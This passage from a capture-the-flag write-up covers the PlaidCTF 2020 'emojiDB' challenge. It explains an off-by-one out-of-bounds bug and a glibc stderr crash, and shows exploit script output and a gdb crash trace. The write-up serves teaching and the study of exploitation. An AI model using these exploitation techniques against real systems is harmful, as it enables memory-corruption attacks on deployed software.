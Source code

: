 First, let’s do a quick POC for that. If we try to allocate 5 emojis, and then free all of them, we can’t free the last one (since *print_emoji()* and *delete_emoji()* uses the same *get_emoji_from_g_arr()*, which doesn't have the off-by-one bug, and refuses to return an OOB object). We can then see that all the "unsupported cmd" bytes we send are actually being written to stderr (easy to see that with ```strace``` or by setting a breakpoint there).

## Last primitive - corruption

I reversed the whole binary and didn’t find another corruption primitives. I called my buddy [@tomash](https://twitter.com/tom41sh), sent him my idb and told him everything I have. He immediately said “ok, you’ve got all the primitives, the Unicode with the stderr is the core here. Look into that.”

There was actually another hint in that direction. The challenge is executed with this script:

```bash
amarsa@SaarAmar-book2:/mnt/c/CTFs/plaid2020/emojiDB/org/bin$ cat run.sh
#!/bin/sh
exec /home/ctf/emojidb 2>&-
```

The output redirection means that ```stderr``` is actually closed when the challenge runs. That's unusual. We clearly see that our commands can be written into this closed file descriptor.

It turns out that there is a bug in glibc we can trigger when we write into stderr, but it requires stderr to be closed. The bug is masked out if we execute the binary by itself, which is a huge pitfall ;). Always use a good reproduction environment ;)

If we run the challenge with stderr close and do this, it will segfault:

* Add 5 emojis, to write oob after the array and enable writing to stderr

* Send “AAAA”

```bash
amarsa@SaarAmar-book2:/mnt/c/CTFs/plaid2020/emojiDB/final$ python3 exploit.py
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] start pasten, attach gdb
[*] send ADD_EMOJI_CMD
[*] send ADD_EMOJI_CMD
[*] send ADD_EMOJI_CMD
[*] send ADD_EMOJI_CMD
[*] send ADD_EMOJI_CMD
[*] send "A"*0x50
```

And...

```
Program received signal SIGSEGV, Segmentation fault.
internal_utf8_loop (irreversible=0x7fffdda090f0, outend=0x7fffdda09220 "",
    outptrp=<synthetic pointer>, inend=0x7f86e47eb9e9 <_IO_wide_data_1+297> "\361\001",
    inptrp=0x7fffdda09180, step_data=0x7f86e47eb9b8 <_IO_wide_data_1+248>,
    step=<optimized out>) at ../iconv/loop.c:325
325     ../iconv/loop.c: No such file or directory.
(gdb) x/4i $rip
=> 0x7f86e4427420 <__gconv_transform_internal_utf8+336>:        mov    (%rax),%edx
   0x7f86e4427422 <__gconv_transform_internal_utf8+338>:        cmp    $0x7f,%edx
   0x7f86e4427425 <__gconv_transform_internal_utf8+341>:
    ja     0x7f86e4427580 <__gconv_transform_internal_utf8+688>
   0x7f86e442742b <__gconv_transform_internal_utf8+347>:        lea    0x1(%rbx),%rax
(gdb) i r rax
rax            0x7f8600000041   140213502345281
(gdb)
```